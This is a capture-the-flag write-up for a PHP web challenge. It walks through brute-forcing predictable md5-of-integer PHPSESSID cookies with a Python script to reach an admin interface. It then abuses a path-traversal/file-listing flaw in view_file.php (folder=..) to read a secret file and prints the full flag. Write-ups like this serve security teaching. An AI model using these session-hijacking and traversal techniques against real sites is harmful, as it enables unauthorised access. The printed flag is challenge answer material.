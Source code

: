 ## Recon
Upon loading the site, we are greeted with a page prompting us to `intercept`:

Doing so leads us to another page: `guest.php` which hints at cookies

```
Dear Jones,

I hope this message finds you well. We have a critical situation regarding the upcoming special event for the President. As you know, the President has a particular fondness for a certain sweet treat we prepare. Unfortunately, I seem to have misplaced the recipe for our most popular confection.

I need you to urgently send me the list of ingredients and steps for this signature delight. It’s the one that everyone raves about, usually paired with afternoon tea. Your quick response is essential, as I need to start preparations immediately.

Best regards,
Chef Anderson
```

Note: we got to this page through a redirect on the `home.php` page.

## Cookies
If we have a look at our cookies we notice we only have a `PHPSESSID` cookie:
`b0b183c207f46f0cca7dc63b2604f5cc`. This cookie changes for each interception.

Googling this cookie (and luck) reveals it is the `md5` hash of `837`.

We can try every number hash to find a weak cookie:

```python
from requests import Session
from tqdm import trange
from hashlib import md5

HOST = "challenges.challenge-ecw.eu"
PORT = "39040"
BASE = f"http://{HOST}:{PORT}/"


for i in trange(0, 1000):
    phpsessid = md5(str(i).encode()).hexdigest()

    s = Session()
    s.cookies.set(
        "PHPSESSID",
        phpsessid,
    )

    response = s.post(BASE + "home.php", allow_redirects=False)
    if response.headers["Location"] != "guest.php":
        print(i)
        print(phpsessid)
        break
```

This provides us with an interesting cookie: `cee631121c2ec9232f3a2f028ad5c89b` which is the `md5` hash of `500`.

## The admin interface
Setting this cookie as our `PHPSESSID` in Burp's browser, we are able to navigate the admin interface:
![](./DeepDive_Interception/admin.png)

The recipe page provides only a partial flag:
```
- 85 g of soft butter
- 1 egg
- ECW{S@cUr3_yOur_C0ok13s_
```

Interestingly, the `edit profile` page allows us to upload a profile picture:
![](./DeepDive_Interception/upload.png)

After uploading a generic PNG image and checking the path were it was uploaded we get this:
`view_file.php?folder=uploads&file=profile.png`

Checking for local file inclusion, I visited:
`http://challenges.challenge-ecw.eu:39040/view_file.php?folder=.&file=view_file.php`

And got the source of the PHP script! Interestingly, we notice that omitting the file argument reveals all the contents of a directory:

```php
if ($folder && !$file) {
    $files = list_files($folder);
    if ($files) {
        $content = "<ul>";
        foreach ($files as $file) {
            $content .= "<li><a href='?folder=" . urlencode($folder) . "&file=" . urlencode(basename($file)) . "'>" . htmlspecialchars(basename($file)) . "</a></li>";
        }
        $content .= "</ul>";
    } else {
        $content = "Failed to open directory.";
    }
}
```

After exploration, the  `.`  directory contains nothing of interest
```
admin.php
guest.php
home.php
img
index.php
js
profile.php
profile_data.json
recipe.php
uploads
view_file.php
```

Listing files in `..` reveals:
```
index.nginx-debian.html
public
src
super_secret.txt
```

We can finally get the second part of the flag:
`http://challenges.challenge-ecw.eu:39040/view_file.php?folder=..&file=super_secret.txt`

```
6Jw91wsMmD}
```

Flag:
`ECW{S@cUr3_yOur_C0ok13s_6Jw91wsMmD}`

> I believe this challenge can also be solved with a file upload vulnerability